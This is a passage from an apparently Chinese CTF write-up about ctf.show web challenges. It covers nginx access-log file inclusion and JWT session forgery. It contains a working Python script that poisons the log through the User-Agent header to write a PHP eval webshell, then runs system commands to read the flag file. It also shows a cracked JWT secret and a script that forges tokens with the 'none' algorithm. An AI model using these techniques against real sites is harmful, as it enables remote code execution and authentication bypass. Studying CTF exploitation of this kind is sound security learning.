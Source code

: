 再文件包含日志，让马能成功写进去

```
/debug/?file=/var/log/nginx/access.log
```

然后访问马,读checke.php即可得到flag

![](https://i.loli.net/2021/10/21/c9dZWa62Unhkr7L.png)

非预期：日志包含写shell

feng师傅的做法

```python
import requests
import base64
url="http://fb707431-ebb7-41c8-9ce7-57da16163fec.chall.ctf.show/"
url2="http://fb707431-ebb7-41c8-9ce7-57da16163fec.chall.ctf.show/debug/?file=/var/log/nginx/access.log"
cmd=b"<?php eval($_POST[1]);?>"
cmd=base64.b64encode(cmd).decode()
headers={
	'User-Agent':'''<?php system('echo {0}|base64 -d  > /var/www/html/b.php');?>'''.format(cmd)
}
print(headers)
requests.get(url=url,headers=headers)
requests.get(url2)
print(requests.post(url+'b.php',data={'1':'system("cat alsckdfy/check.php");'}).text)


```



## 389 jwt session伪造

访问/debug，提示权限不足，看session，明显的jwt格式

![](https://i.loli.net/2021/10/21/fkE2QKzwLr36qmS.png)

![](https://i.loli.net/2021/10/21/q2L3BpAc7skE8uV.png)

c-jwt-cracker爆破得123456

```jwt
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJhZG1pbiIsImlhdCI6MTYzNDc5OTkxNywiZXhwIjoxNjM0ODA3MTE3LCJuYmYiOjE2MzQ3OTk5MTcsInN1YiI6ImFkbWluIiwianRpIjoiMThhNDYzZDJjYTEyNmU3MGZhZmNmMjdhODc0ZjU3ZjAifQ.ZiQ4RvolefXr7HE2jbFhtFVl0VSSX8UhE4xjZ7_f83U
```

![](https://i.loli.net/2021/10/21/sFfcaxGlBigzAj1.png)

或者把加密算法改成none

```python
import jwt
token = jwt.encode(
{
  "iss": "admin",
  "iat": 1634799917,
  "exp": 1634807117,
  "nbf": 1634799917,
  "sub": "admin",
  "jti": "18a463d2ca126e70fafcf27a874f57f0"
},
algorithm="none",key=""
)

```